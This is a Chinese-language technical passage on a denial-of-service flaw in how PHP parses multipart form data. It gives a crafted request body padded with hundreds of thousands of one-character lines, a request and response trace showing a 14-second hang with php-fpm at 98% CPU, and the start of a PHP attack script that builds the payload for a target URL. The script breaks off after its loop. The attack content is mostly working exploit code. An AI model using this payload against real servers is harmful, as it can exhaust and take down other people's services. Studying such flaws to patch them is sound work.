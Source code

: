#### 2. 漏洞利用方法 ####

> 我们只需要构造一个如下的HTTP请求body即可
>
```
------WebKitFormBoundaryX3B7rDMPcQlzmJE1
Content-Disposition: form-data; name="file"; filename=sp.jpga
a
a
a
a
Content-Type: application/octet-stream
>
datadata
------WebKitFormBoundaryX3B7rDMPcQlzmJE1
```
>
对于Content-Disposition entry，在最后增加一段一个字符一换行的数据，当行数在500000行时消耗的时间就已经非常可观了
>
```
POST / HTTP/1.1
Host: 127.0.0.1
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryX3B7rDMPcQlzmJE1
Content-Length: 1000193
Expect: 100-continue
>
HTTP/1.1 100 Continue
HTTP/1.1 200 OK
Server: nginx/0.8.55
Date: Mon, 18 May 2015 11:43:58 GMT
Content-Type: text/html
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/5.3.15
>
real	0m14.629s
user	0m0.047s
sys	0m0.007s
```
>
PHP-FPM会有极大的压力，与Hash冲突非常像。
>
```
31414 nobody    20   0  134m 5188 1876 R 98.3  1.0   0:07.47 php-fpm
```

#### 3. 攻击脚本 ####

> 将上述文章中的Python脚本改写成一个PHP的版本，以便于更好的理解，同时也更加简洁
>
```php
<?php
$url = $argv[1];
$curl = curl_init();
$num = 500000;
$headers = array(
	"Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryX3B7rDMPcQlzmJE1"
);
>
$body = "------WebKitFormBoundaryX3B7rDMPcQlzmJE1\nContent-Disposition: form-data; name=\"file\"; filename=sp.jpg";
for ($i = 0; $i < $num; $i++) {
	$body .= "a\n";
}
```
